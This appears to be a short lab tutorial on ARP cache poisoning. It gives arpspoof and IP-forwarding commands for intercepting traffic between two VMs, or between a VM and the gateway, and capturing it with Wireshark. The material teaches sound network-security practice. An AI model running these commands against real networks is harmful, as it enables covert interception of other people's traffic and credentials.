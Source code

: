 ```yaml
---
title: "Arpspoof Arp Cache Poisoning"
date: 2020-05-02T18:19:48+02:00
tags:
  - hacking
  - arp
---
```


Goal: tricking `arp` cache to redirect network traffic to us "Man in the middle".

- VM1: 192.168.1.244
- VM2: 192.168.1.145
- GW: 192.168.1.1

## Preqrequisites

```sh
# Enable ip forwarding
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
# Ensure arpspoof is avaailable
sudo apt install dsniff
```

## Listening to traffic between two VMs from a third VM.

```sh
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Start redirecting traffic from VM1 to VM2 to us
sudo arpspoof -i eth0 -t $VM1 $VM2
# Start redirecting traffic from VM2 to VM1 to us
sudo arpspoof -i eth0 -t $VM2 $VM1
# Checking arp table on VM1/VM2 allow to check IP/Mac
arp -a
# Using wireshark will allow to check/follow traffic
sudo whireshark
```

## Pretending to be the default gateway

```sh
# Checking arp table allow to check IP/Mac
arp -a
# Start redirecting traffic from VM1 to VM2 to us
sudo arpspoof -i eth0 -t $VM1 $GW
# Start redirecting traffic from VM2 to VM1 to us
sudo arpspoof -i eth0 -t $GW $VM1
# Using wireshark will allow to check/follow traffic
sudo whireshark
```
